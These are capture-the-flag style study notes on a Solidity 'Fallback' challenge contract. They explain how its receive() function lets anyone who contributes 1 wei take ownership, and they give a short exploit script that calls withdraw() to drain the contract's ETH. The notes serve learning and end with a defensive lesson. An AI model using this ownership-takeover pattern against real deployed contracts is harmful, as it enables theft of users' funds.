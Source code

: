 ## 🧠 **Fallback Challenge - Quick Notes**

### 🎯 **Objectives**
- Become the **`owner`** of the `Fallback` contract.
- Withdraw all ETH, reducing the **contract balance to `0`**.

---

### 🧩 **Contract Logic Overview**

#### ✅ `contribute()`
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;

    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```
- Accepts **small contributions (< 0.001 ETH)**.
- Updates `contributions[msg.sender]`.
- Changes `owner` if sender’s total contribution exceeds current owner’s.

---

#### ✅ `receive()` (fallback function)
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```
- Triggered by a **plain ETH transfer** (via `.call{value: x}("")`)
- Requires:
  - A **non-zero** contribution from the sender
  - **Some ETH** in the call

---

#### ✅ `withdraw()`
```solidity
function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
}
```
- Only the `owner` can withdraw entire contract balance.

---

### 🔓 **Exploit Steps**

1. **Contribute a small amount:**
   - e.g. `1 wei`
   - Satisfies `contributions[msg.sender] > 0`

2. **Send ETH directly to contract:**
   - Use `.call{value: 1 wei}("")`
   - Triggers `receive()` function and sets you as the `owner`

3. **Call `withdraw()`:**
   - Now you're the `owner`, you can drain the contract

---

### ✅ **Final Script Summary**
```solidity
_fallback.contribute{value: 1 wei}();
(bool success, ) = address(_fallback).call{value: 1 wei}("");
_fallback.withdraw();
```

---

### 🧰 **Helpful Tips**
- `receive()` is triggered when ETH is sent with **no calldata**.
- Use `.call{value: x}("")` to manually trigger it.
- `vm.startBroadcast()` and `vm.stopBroadcast()` are used in Foundry to broadcast transactions on forked or live networks.
- Don't exceed `0.001 ether` in `contribute()`, or it reverts.

---

### Takeaway
- Use of the receive & fallback functions
- Never implement critical logic in the fallback/receive function